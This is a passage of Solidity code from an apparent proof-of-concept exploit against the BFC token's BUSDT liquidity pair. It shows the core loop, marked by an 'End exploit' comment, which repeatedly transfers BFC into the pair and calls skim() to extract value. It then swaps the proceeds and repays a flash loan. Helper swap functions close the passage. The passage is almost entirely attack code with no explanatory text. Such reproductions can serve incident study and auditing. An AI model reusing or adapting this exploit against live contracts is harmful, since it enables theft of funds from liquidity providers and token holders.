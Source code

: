 ```solidity
            if (balanceBFC >= (50 * pairBalanceBFC)) {
                balanceBFC = (pairBalanceBFC - 1) * 50;
            }

            BFC.transfer(address(BUSDT_BFC), balanceBFC);
            BUSDT_BFC.skim(address(this));
            BFC.transfer(address(BUSDT_BFC), 0);

            if (balanceBFC < (pairBalanceBFC * 50)) {
                ++counter;
            } else {
                break;
            }
        }
        // End exploit
        swapBFCToBUSDT();
        uint256 returnFlashAmount = (_amount0 * 1000) / 997 + 1;
        BUSDT.transfer(address(BUSDT_WBNB), returnFlashAmount);
    }

    receive() external payable {}

    function swapBUSDTToBFC(uint256 amountIn) internal {
        address[] memory path = new address[](2);
        path[0] = address(BUSDT);
        path[1] = address(BFC);

        Router.swapExactTokensForTokensSupportingFeeOnTransferTokens(
            amountIn,
            0,
            path,
            address(this),
            block.timestamp + 1000
        );
    }

    function swapBFCToBUSDT() internal {
        address[] memory path = new address[](2);
        path[0] = address(BFC);
        path[1] = address(BUSDT);

        Router.swapExactTokensForTokensSupportingFeeOnTransferTokens(
            BFC.balanceOf(address(this)),
            0,
            path,
            address(this),
            block.timestamp + 1000
        );
    }

    function swapBUSDTToBNB() internal {
        address[] memory path = new address[](2);
        path[0] = address(BUSDT);
        path[1] = address(WBNB);

        Router.swapExactTokensForETH(
            BUSDT.balanceOf(address(this)),
            0,
            path,
            address(this),
            block.timestamp + 1000
        );
    }
```